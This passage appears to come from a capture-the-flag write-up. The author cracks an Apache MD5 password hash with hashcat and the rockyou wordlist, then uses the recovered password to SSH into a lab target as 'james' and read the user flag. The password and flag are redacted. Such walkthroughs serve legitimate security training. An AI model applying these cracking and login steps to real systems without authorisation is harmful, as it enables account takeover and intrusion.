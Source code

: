 I used hashcat to crack the password. The password was pretty weak, it took 4 seconds to crack it. 

```bash
$ hashcat -a 0 -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

=============================================================================================================================

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1:REDACTED

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Apache $apr1$ MD5, md5apr1, MD5 (APR)
Hash.Target......: $apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
Time.Started.....: Sun Jun 27 19:03:03 2021 (1 sec)
Time.Estimated...: Sun Jun 27 19:03:04 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     7312 H/s (8.18ms) @ Accel:128 Loops:250 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 768/14344385 (0.01%)
Rejected.........: 0/768 (0.00%)
Restore.Point....: 512/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
Candidates.#1....: hockey -> james1

Started: Sun Jun 27 19:03:01 2021
Stopped: Sun Jun 27 19:03:05 2021
```

I used the cracked password to connect as james, and it worked.

```bash
$ ssh james@target
The authenticity of host 'target (10.10.113.129)' can't be established.
ECDSA key fingerprint is SHA256:JCUiGJ9gC+EZEJeudS9yMKLVlE7MtpS2rolJudHcCbQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target,10.10.113.129' (ECDSA) to the list of known hosts.
james@target's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

439 packages can be updated.
380 updates are security updates.

Last login: Wed Mar 10 18:36:58 2021 from 10.250.0.44

james@osboxes:~$ cat user.txt
REDACTED
```
